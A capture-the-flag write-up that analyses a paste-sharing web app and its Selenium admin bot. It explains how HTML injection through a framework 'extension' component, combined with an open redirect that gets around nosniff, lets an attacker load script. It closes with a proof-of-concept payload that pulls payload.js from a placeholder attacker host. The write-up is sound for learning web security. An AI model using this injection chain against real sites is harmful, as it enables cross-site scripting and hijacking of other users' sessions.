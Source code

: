 ## Server-side bot (AdminController.cs)

A very typical CTF "admin bot", using Selenium framework. It handles
`POST /report` taking `id` as the argument (GUID) and:

*   Starts a Chrome instance
*   Goes to `http://localhost:5000/view?id=GUID` (that URL is carefully
    constructed, no way to inject anything other than a GUID there)
*   Clicks **Go Back**
*   Clicks **Create your first paste!**
*   Types the flag (pulled from `FLAG` environment variable) in the provided
    text area
*   Clicks **Create**

All this with some delays - in particular, the 3 seconds after the flag
submission, seemed like invitation to some kind of timing attack?

Some extra security:

*   After each step, browser's URL is checked to have `host=localhost`
*   Providing invalid GUID returns some internal JSON, but with no data.


# Summary

So, to summarize, we have:

1.  A custom client-side framework, which should be exploitable by injecting
    HTML tags inside "pastes".
2.  That fishy `extension` DOM object in the framework, which allows injecting
    arbirary scripts from `localhost`.
3.  Access to raw pastes as `/content/GUID`.
4.  All these things combined, suggest an attack:
    *   Create a paste with some JS payload. Note its GUID.
    *   Create another paste, injecting
        `<spa-component name="extension" value="/content/GUID">` in a way that
        will make the framework add it literally into the DOM.
    *   Send that second paste for admin review - once the payload kicks in, we
        have full control over the app that the admin is clocking through.
5.  That _almost_ works &#128578; The pastes served by `/content/GUID` have
    `Content-Type: text/html` and browser rejects that because of
    `X-Content-Type-Options: nosniff`.
6.  ... and that's where `/content/share` comes handy. Remember, it can
    redirect to arbitrary URL, incl. one that we control to set the correct
    `Content-Type`.

As a PoC, I started an AWS VM, created a simple `payload.js` with
`console.log("blah");` file and added a following paste:

```html
bla</spa-component><spa-component name="extension" value="/content/share?link=http://X.X.X.X/payload.js">test</spa-component>
```
